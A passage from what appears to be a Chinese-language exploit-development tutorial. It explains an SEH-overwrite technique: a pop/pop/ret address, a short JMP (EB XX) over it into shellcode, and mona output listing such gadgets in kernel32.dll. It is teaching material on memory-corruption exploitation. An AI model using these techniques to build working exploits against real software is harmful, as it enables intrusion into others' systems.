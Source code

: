 
首先，确保esp+8总存在准确的重启进程的地址，再试一次。在检验完之后，我们需要找到一些指令如：

    
    
    POP   reg32
    POP   reg32
    RET
    

思路是：被执行时，放入某段代码的地址来替代4个”b”字符，该代码将会对ESP进行加8操作（2条pop指令），接着提取通过ESP指向的值然后转移到那个地址。这确实是我们想要的，即，它将会转移到我们的”b”字符前面4个”a”字符右端。为了跳过”b”字符并转移到我们的shellcode上（我们的”c”字符），我们需要在”b”字符的前面放入一个jmp指令。

JMP操作码的简写是：

    
    
    EB XX
    

XX的位置是一个被标记的字节。为了方便，我们添加一个标签：

    
    
    here:
      EB XX
    

那操作码转移到here+2+XX的位置。例如，

    
    
      EB 00
    there:
    

转移之后到了右边，即，到了there部分。

这是我们想要的：

![](http://static.wooyun.org//drops/20151116/2015111606071349627125.png)

90是NOP指令的操作码（no operation-不进行任何操作），但是因为那两个字节将会被跳过，所以我们可以使用任意指令的操作码。

现在让我们在kernel32.dll中找到 `pop/pop/ret`的地址：

    
    
    0:000> !py mona findwild -s "pop r32#pop r32#ret" -m kernel32.dll
    Hold on...
    [+] Command used:
    !py mona.py findwild -s pop r32#pop r32#ret -m kernel32.dll    
    
    ---------- Mona command started on 2015-03-18 20:33:46 (v2.0, rev 554) ----------
    [+] Processing arguments and criteria
        - Pointer access level : X
        - Only querying modules kernel32.dll
    [+] Type of search: str
    [+] Searching for matches up to 8 instructions deep
    [+] Generating module info table, hang on...
        - Processing modules
        - Done. Let's rock 'n roll.
    [+] Started search (8 start patterns)
    [+] Searching startpattern between 0x75dc0000 and 0x75ed0000
    [+] Preparing output file 'findwild.txt'
        - (Re)setting logfile findwild.txt
    [+] Writing results to findwild.txt
        - Number of pointers of type 'pop edi # pop ebp # retn 24h' : 1
        - Number of pointers of type 'pop esi # pop ebx # retn' : 2
        - Number of pointers of type 'pop ebx # pop ebp # retn 14h' : 4
        - Number of pointers of type 'pop ebx # pop ebp # retn 10h' : 14
        - Number of pointers of type 'pop edi # pop esi # retn' : 2
        - Number of pointers of type 'pop edi # pop ebp # retn 8' : 13
        - Number of pointers of type 'pop eax # pop ebp # retn 1ch' : 2
        - Number of pointers of type 'pop ecx # pop ebx # retn 4' : 1
        - Number of pointers of type 'pop esi # pop ebp # retn' : 1